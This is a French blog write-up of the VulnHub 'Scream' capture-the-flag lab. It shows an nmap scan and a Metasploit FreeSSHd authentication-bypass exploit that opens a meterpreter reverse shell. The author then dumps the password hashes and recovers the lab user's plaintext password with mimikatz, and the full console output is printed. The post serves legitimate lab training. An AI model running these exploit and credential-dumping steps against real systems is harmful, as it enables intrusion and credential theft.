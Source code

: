 ```yaml
---
title: "Solution du CTF Scream de VulnHub"
tags: [CTF,VulnHub]
---
```


Nitro
-----

Une mise à jour vers [Metasploit 4.9](https://community.rapid7.com/community/metasploit/blog/2014/03/26/new-metasploit-49-helps-evade-anti-virus-solutions-test-network-segmentation-and-increase-productivity-for-penetration-testers) et on est reparti !  

Comme pour le [CTF Bobby 1]({% link _posts/2014-03-28-Solution-du-CTF-Bobby-1-de-VulnHub.md %}) on a affaire à un CTF Windows qui passe par la personnalisation d'un ISO de XP SP3.  

Par conséquent, allez faire un tour sur mon précédent article pour la mise en place.  

Ici l'objectif [du challenge Scream](http://vulnhub.com/entry/devrandom_scream,47/) est d'obtenir le mot de passe de l'utilisateur local.  

*Nmap* révèle la présence de différents services :  

```plain
Nmap scan report for 192.168.1.22
Host is up (0.00029s latency).
Not shown: 996 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     WAR-FTPD 1.65 (Name Scream XP (SP2) FTP Service)
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x 1 ftp ftp              0 Mar 29 14:35 bin
| drwxr-xr-x 1 ftp ftp              0 Mar 29 14:35 log
|_drwxr-xr-x 1 ftp ftp              0 Mar 29 14:35 root
|_ftp-bounce: bounce working!
22/tcp open  ssh     WeOnlyDo sshd 2.1.3 (protocol 2.0)
| ssh-hostkey: 1024 2c:23:77:67:d3:e0:ae:2a:a8:01:a4:9e:54:97:db:2c (DSA)
|_1024 fa:11:a5:3d:63:95:4a:ae:3e:16:49:2f:bb:4b:f1:de (RSA)
23/tcp open  domain  ISC BIND login
80/tcp open  http    Tinyweb httpd 1.93
|_http-methods: No Allow or Public header in OPTIONS response (status code 403)
|_http-title: The Scream - Edvard Munch
MAC Address: 08:00:27:78:63:1B (Cadmus Computer Systems)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Microsoft Windows 2000|XP
OS CPE: cpe:/o:microsoft:windows_2000::sp4 cpe:/o:microsoft:windows_xp::sp2 cpe:/o:microsoft:windows_xp::sp3
OS details: Microsoft Windows 2000 SP4, Microsoft Windows XP SP2 or SP3
Network Distance: 1 hop
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Le serveur web a juste une page d'index avec un ascii-art qui reprends le fameux [Cri d'Edvard Munch](http://fr.wikipedia.org/wiki/Le_Cri) (parenthèse culturelle il parait que c'est la tableau le plus cher au monde...)  

A part ça rien à voir de ce côté.  

Je me suis intéressé au serveur FTP qui permet les connexions en anonymous. Aucun droit n'est donné quand on s'y connecte (les fichiers ne sont pas lisibles), aussi j'ai tenté d'exploiter la faille dans cette version de *WAR-FTPD*.  

*Metasploit* dispose en effet d'un exploit baptisé *"War-FTPD 1.65 Username Overflow"* qui compte XP SP3 dans les plateformes supportées. Ça semblait prometteur mais malgré tous mes essais, rien à faire. *Metasploit* a indiqué par moment que l'exploit a aboutit mais rien sur notre port d'écoute qui attend un reverse-shell :(   

J'ai remarqué lors de la personnalisation de l'ISO par *AutoIt* une fenêtre *AVG* qui pourrait être la cause de ce problème. Mais même en jouant avec les différents payloads, encodeurs et options avancées (*show advanced*) toujours pas de shell :(  

G0t syst3m ?
------------

Je me suis alors rabatu sur le serveur SSHD : j'ai trouvé [un exploit de KingCope](http://www.exploit-db.com/exploits/23080/) pour une faille permettant de bypasser l'authentification.  

L'exploit consiste à récupérer et modifier un client SSH ([5.8p2](https://launchpad.net/openssh/main/5.8p2)) mais après avoir testé plusieurs noms d'utilisateurs, force est de constater que ça ne marchait pas.  

Je me suis bêtement rendu compte en fouillant un peu plus que *Metasploit* disposait aussi d'un exploit pour la même vulnérabilité :  

```plain
msf exploit(freesshd_authbypass) > show options

Module options (exploit/windows/ssh/freesshd_authbypass):

   Name       Current Setting                                                   Required  Description
   ----       ---------------                                                   --------  -----------
   RHOST      192.168.1.22                                                      yes       The target address
   RPORT      22                                                                yes       The target port
   USERNAME                                                                     no        A specific username to try
   USER_FILE  /data/metasploit-4.9/apps/pro/msf3/data/wordlists/unix_users.txt  yes       File containing usernames, one per line

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (accepted: seh, thread, process, none)
   LHOST     192.168.1.3      yes       The listen address
   LPORT     9999             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Freesshd <= 1.2.6 / Windows (Universal)

msf exploit(freesshd_authbypass) > exploit

[*] Started reverse handler on 192.168.1.3:9999 
[*] Trying username '4Dgifts'
[*] Trying username 'EZsetup'
[*] Trying username 'OutOfBox'
[*] Trying username 'ROOT'
[*] Trying username 'adm'
[*] Trying username 'admin'
[*] Uploading payload, this may take several minutes...
[*] Sending stage (769536 bytes) to 192.168.1.22
[*] Meterpreter session 1 opened (192.168.1.3:9999 -> 192.168.1.22:1072) at 2014-03-29 16:59:54 +0100

meterpreter > ps

Process List
============

 PID   PPID  Name                            Arch  Session     User                          Path
 ---   ----  ----                            ----  -------     ----                          ----
 0     0     [System Process]                      4294967295                                
 4     0     System                          x86   0           NT AUTHORITY\SYSTEM           
 236   636   alg.exe                         x86   0           NT AUTHORITY\LOCAL SERVICE    C:\WINDOWS\System32\alg.exe
 384   4     smss.exe                        x86   0           NT AUTHORITY\SYSTEM           \SystemRoot\System32\smss.exe
 456   412   explorer.exe                    x86   0           SCREAM\alex                   C:\WINDOWS\Explorer.EXE
 568   384   csrss.exe                       x86   0           NT AUTHORITY\SYSTEM           \??\C:\WINDOWS\system32\csrss.exe
 592   384   winlogon.exe                    x86   0           NT AUTHORITY\SYSTEM           \??\C:\WINDOWS\system32\winlogon.exe
 636   592   services.exe                    x86   0           NT AUTHORITY\SYSTEM           C:\WINDOWS\system32\services.exe
 648   592   lsass.exe                       x86   0           NT AUTHORITY\SYSTEM           C:\WINDOWS\system32\lsass.exe
 804   636   svchost.exe                     x86   0           NT AUTHORITY\SYSTEM           C:\WINDOWS\system32\svchost.exe
 828   980   wscntfy.exe                     x86   0           SCREAM\alex                   C:\WINDOWS\system32\wscntfy.exe
 884   636   svchost.exe                     x86   0           NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\svchost.exe
 980   636   svchost.exe                     x86   0           NT AUTHORITY\SYSTEM           C:\WINDOWS\System32\svchost.exe
 1036  636   svchost.exe                     x86   0           NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\svchost.exe
 1060  636   svchost.exe                     x86   0           NT AUTHORITY\LOCAL SERVICE    C:\WINDOWS\system32\svchost.exe
 1224  1292  aCwFw.exe                       x86   0           NT AUTHORITY\SYSTEM           C:\WINDOWS\TEMP\aCwFw.exe
 1268  636   spoolsv.exe                     x86   0           NT AUTHORITY\SYSTEM           C:\WINDOWS\system32\spoolsv.exe
 1492  592   logon.scr                       x86   0           SCREAM\alex                   C:\WINDOWS\System32\logon.scr
 1556  636   FileZilla server.exe            x86   0           NT AUTHORITY\SYSTEM           C:\Program Files\FileZilla Server\FileZilla Server.exe
 1588  636   FreeSSHDService.exe             x86   0           NT AUTHORITY\SYSTEM           C:\Program Files\freeSSHd\FreeSSHDService.exe
 1740  636   OpenTFTPServerMT.exe            x86   0           NT AUTHORITY\SYSTEM           C:\OpenTFTPServer\OpenTFTPServerMT.exe
 1792  456   FileZilla Server Interface.exe  x86   0           SCREAM\alex                   C:\Program Files\FileZilla Server\FileZilla Server Interface.exe

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > run post/windows/gather/hashdump

[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY 24198fa48ad44c4d77fb0d536e590e53...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hints...

No users with password hints on this system

[*] Dumping password hashes...

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:2bf1928be3d38ac3cd7fe0c29e77fe10:62a47ba71ff4351f45933a18ccfb6db4:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:9218eb1721cfcff146867f9d715fa8df:::
alex:1003:aad3b435b51404eeaad3b435b51404ee:504182f8417ed8557b67e96adc8b4d04:::
```

Aïe, la compatibilité lanman semble avoir été désactivée (on voit pour les hashs LM des *aad3*... qui correspondent à une chaîne vide).  

A tout hazard on lance *John The Ripper* mais après quelques minutes on se dit que ce n'est pas la peine d'insister :(   

Finalement je tombe [sur cet article](http://www.securityartwork.es/2013/06/04/mimikatz-extension-for-metasploit/?lang=en) qui parle du module *Mimikatz* dans *Metasploit*. Mettons en application :  

```plain
meterpreter > load mimikatz
Loading extension mimikatz...success.

meterpreter > kerberos
[+] Running as SYSTEM
[*] Retrieving kerberos credentials
kerberos credentials
====================

AuthID   Package    Domain        User             Password
------   -------    ------        ----             --------
0;999    NTLM       WORKGROUP     SCREAM$          
0;997    Negotiate  NT AUTHORITY  LOCAL SERVICE    
0;25771  NTLM                                      
0;996    Negotiate  NT AUTHORITY  NETWORK SERVICE  
0;34724  NTLM       SCREAM        alex             thisisaverylongpassword
```

Effectivement c'est plus rapide :p   


*Published March 29 2014 at 17:39*
